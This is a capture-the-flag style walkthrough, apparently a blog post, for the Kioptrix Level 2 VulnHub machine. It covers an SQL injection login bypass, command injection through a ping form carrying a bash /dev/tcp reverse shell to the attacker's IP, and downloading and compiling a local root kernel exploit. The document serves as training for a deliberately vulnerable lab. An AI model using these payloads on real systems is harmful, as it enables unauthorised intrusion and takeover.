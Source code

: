 ```yaml
---
layout: post
title: "Kioptrix Level 2"
date: 2022-02-09
categories: [VulnHub, Easy-VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix2.png
---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/187391745-98d46f19-3f2a-42b3-b715-7c1657abad15.png)

Okay, so the IP address of the box is **10.0.2.67**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.67
```

![image](https://user-images.githubusercontent.com/67465230/187391795-264951ca-cf89-4ede-80ef-ca4dc87c8990.png)
![image](https://user-images.githubusercontent.com/67465230/187391839-6e507aae-a8af-437e-86ff-9289bc996b8a.png)

there are multiple ports open. Let's enumerate each one of them.

Let's find out what technologies are running on the machine using **whatweb** tool,

```bash
whatweb http://10.0.2.67
```

![image](https://user-images.githubusercontent.com/67465230/187391883-0ef985e2-0cf0-4ea5-b130-d73ee24d3f41.png)

it's running PHP programming language, has a password field (maybe login mechanism).

visit http://10.0.2.67,

![image](https://user-images.githubusercontent.com/67465230/187391935-3e1135a5-9930-406d-bfe8-7bb009992a5f.png)

we got a admin login page. Let's try to break through in using SQLi.

We'll put username as `admin' or 1=1#` and password as `admin`(**any**)

![image](https://user-images.githubusercontent.com/67465230/187392002-af30cf8e-c062-44a7-8a56-1450353a251d.png)

we'll get logged in as administrator,

![image](https://user-images.githubusercontent.com/67465230/187392058-00dca0e1-2298-4ef8-a6d3-1004b651d7cd.png)

seems like this is a web console and we can ping any machines. Let's ping our own machine,

when **127.0.0.1** is entered in empty area, we'll get this result,

![image](https://user-images.githubusercontent.com/67465230/187392140-fc29569b-73c3-44ef-be03-68033b48aa0d.png)

we got ping result. This is a OS Command Execution Vulnerability and we can run other system commands as well on this web console.

Let's get to know which user we're by, `whoami`

![image](https://user-images.githubusercontent.com/67465230/187392175-94bf8ee4-fe93-481a-9b54-a6577d41ab76.png)

Let's start the netcat listener on kali terminal using `nc -nvlp 4444` and we'll put this one liner reverse shell in ping utility of website to get us a reverse shell when command gets executed.

```bash
127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/4444 <&1'
```

![image](https://user-images.githubusercontent.com/67465230/187392265-9a294c55-d863-41b3-b84d-2dd46197047a.png)

as soon as this command runs, we'll get back a reverse connection,

![image](https://user-images.githubusercontent.com/67465230/187392307-3b03776f-1e1f-4d12-9dd8-1b64b722f47a.png)

we're apache user.

After enumeration, I found that there's nothing we can do to elevate our privileges to users like john or harold. **Privilege Escalation:** we'll escalate our privileges to super-user with help of enumeration. Let's first find out what is the system OS running,

```bash
cat /etc/*-release
```

![image](https://user-images.githubusercontent.com/67465230/187392359-8c4c7b0e-bf4a-46fc-ae6d-debe4da51475.png)

this box is running CentOS 4.5 Final.

Let's take a look at kernel version,

```bash
uname -mrs
``` 

![image](https://user-images.githubusercontent.com/67465230/187392424-94ab3240-c1d6-4cab-9b60-9f7378fe65ef.png)

The kernel version of this box is **Linux 2.6.9-55.EL**. After doing some research on google, I found that this kernel is named as **IP_Append_data()**. Let's search this exploit on searchsploit,

```bash
searchsploit ip append data
```

![image](https://user-images.githubusercontent.com/67465230/187392486-92c5aed9-b37d-4244-affd-d9ca203b2593.png)

this is a c file.

Let's download the exploit on our dir and start the python webserver using `python3 -m http.server 8000` and now we're going to upload this exploit on the box,

first navigate to /tmp directory because this directory has writable permissions and then we'll download this exploit using **wget** command,

```bash
wget http://10.0.2.15:8000/9542.c
```

let's check if our exploit is present on /tmp directory,

![image](https://user-images.githubusercontent.com/67465230/187392683-205949f6-0e0d-4bb1-ae7f-0f31b99db1c8.png)

yes, it has been downloaded successfully.

Let's now compile this exploit using **gcc** compiler,

```bash
gcc -o 9542 9542.c
```

![image](https://user-images.githubusercontent.com/67465230/187392723-41628453-a374-409e-907a-b543e7ffbb4e.png)

Let's view if our exploit is compiled or not,

![image](https://user-images.githubusercontent.com/67465230/187392781-868b883d-64a4-49b6-a65e-5ef0bee2ff85.png)

yes, it has been successfully compiled. Now, run the exploit,

```bash
./9542
```

![image](https://user-images.githubusercontent.com/67465230/187392826-30489e1f-3bda-44a5-8927-2b4e85c6940d.png)

doing `id` will show us that we're now ROOT user!!!.

We've successfully rooted this box.